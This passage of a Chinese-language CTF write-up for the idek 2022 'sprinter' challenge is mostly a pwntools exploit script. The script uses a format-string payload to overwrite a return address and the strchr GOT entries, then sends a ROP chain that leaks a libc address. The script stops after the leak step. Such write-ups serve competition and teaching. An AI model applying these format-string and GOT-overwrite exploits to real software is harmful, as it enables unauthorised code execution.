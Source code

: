 ![](/images/idek2022/5.jpg)

通过分析得知当调用`sprintf`的时候，保存了其返回地址的栈帧就在`s`所在的栈帧上面，所以为了复写返回地址，需要在栈上写入保存返回地址的栈帧

先看exp

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
context.log_level = 'debug'

def qwq(name):
  log.success(hex(name))

def debug(point):
  gdb.attach(r,'b '+str(point))

r = process('./vuln')
# r = remote('sprinter.chal.idek.team',1337)
elf =ELF('./vuln')
#libc = ELF('./libc-2.31.so')
libc=ELF('./libc-2.31.so')
r.recvuntil(b"Enter your string into my buffer, located at ")
stack_addr = int(r.recvuntil(b':')[:-1],16)
target_addr = stack_addr-8
print(hex(target_addr))

#debug("sprintf")
#debug(" *0x40124A")
#gdb.attach(r)


# payload = b'%sa\x00%'+b'b'*0x3+b'c%9$hhn'+b'bbbbbbb'+b'%33$hhn'
payload = b'%sa\x00%'+b'b'*0x3+b'c%31$hhn'+b'%bbbbbbbbc'+b'%33$hhn'+b'%'+b'b'*(0x30-5)+b'c%34$n'+b'%'+b'b'*(0x26+0xc-2)+b'c%32$hhn'
payload=payload.ljust(0xd0,b'\x00')
payload=payload+p64(target_addr)+p64(elf.got["strchr"])+p64(elf.got["strchr"]+1)+p64(elf.got["strchr"]+2)
#printf_plt = 0x4010d0
#pop5_ret = 0x401366

#debug(' *0x40124A')
#debug(' *0x401296')

r.sendline(payload)
#debug(" *0x401296")
#r.recvuntil(b'(')
#pause()
pop_rdi = 0x0000000000401373
leak_payload = p64(pop_rdi)+p64(elf.got["fgets"])+p64(elf.plt["printf"])+p64(0x40122F)

debug(' *0x40124A')
r.sendline(leak_payload)
```